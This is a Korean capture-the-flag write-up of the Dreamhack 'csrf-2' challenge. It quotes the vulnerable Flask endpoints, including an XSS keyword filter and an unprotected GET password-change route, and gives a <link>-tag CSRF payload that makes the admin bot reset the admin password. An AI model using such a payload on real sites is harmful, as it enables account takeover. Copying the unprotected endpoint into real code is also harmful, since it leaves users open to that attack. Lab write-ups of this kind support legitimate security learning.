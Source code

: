 ```yaml
---
layout: post
category: [wargame, web]
title: csrf-2
---
```


## [문제](https://dreamhack.io/wargame/challenges/269)
CSRF 공격으로 플래그를 얻는 문제이다.

## 문제 분석
이 문제도 이전 [csrf-1](/csrf-1.html) 과 유사하게 클라이언트의 취약점이기 때문에, 이를 트리거할 봇이 백엔드에 구현되어 있다.

서버 소스를 다운로드 받아 확인해보았다.
```py
@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')
```

세션 아이디를 사용해 사용자를 식별하고, 사용자가 ``admin`` 일 경우에만 플래그를 출력하는 것을 확인할 수 있다.

```py
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param
```

또한 이전 문제와 마찬가지로 ``vuln`` 엔드포인트에서 xss 가 가능한 키워드들을 필터링하고 있다.

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        session_id = os.urandom(16).hex()
        session_storage[session_id] = 'admin'
        if not check_csrf(param, {"name":"sessionid", "value": session_id}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

랜덤으로 만들어진 관리자의 세션 ID를 session_storage 딕셔너리에 저장하고 이전 문제의 check_csrf 코드처럼 서버에서 브라우저를 실행하고 그 브라우저에 쿠키로 관리자의 세션 ID를 설정한다.

이전 문제에서는 FLAG를 메모에 추가하는 엔드포인트를 CSRF 로 실행하였지만 이번 문제에서는 

```py
@app.route("/change_password")
def change_password():
    pw = request.args.get("pw", "")
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    users[username] = pw
    return 'Done'
```

``/change_password`` 엔드포인트가 있는 것을 볼 수 있다. 이 엔드포인트는 로그인되어있는 사용자의 비밀번호를 변경하는 엔드포인트이다.

## 풀이
이전 문제와 유사하게  ``<link>`` 태그를 이용하여 CSRF 공격을 수행하였다.

```html
<link rel="stylesheet" href="http://localhost:8000/change_password?pw=1234" />
```

위 페이로드를 ``/flag`` 페이지 폼에 넣어 전송하면, 서버에서 실행 중인 관리자 권한을 가진 브라우저가 위 페이로드가 담긴 페이지를 로드하게 되고, 서버의 브라우저는 페이로드의 스타일시트를 로드하기 위해 ``/change_password`` 엔드포인트에 요청을 보내게 된다. 서버는 이 요청을 신뢰하여 ``admin`` 계정의 비밀번호를 ``1234`` 로 변경하게 된다.

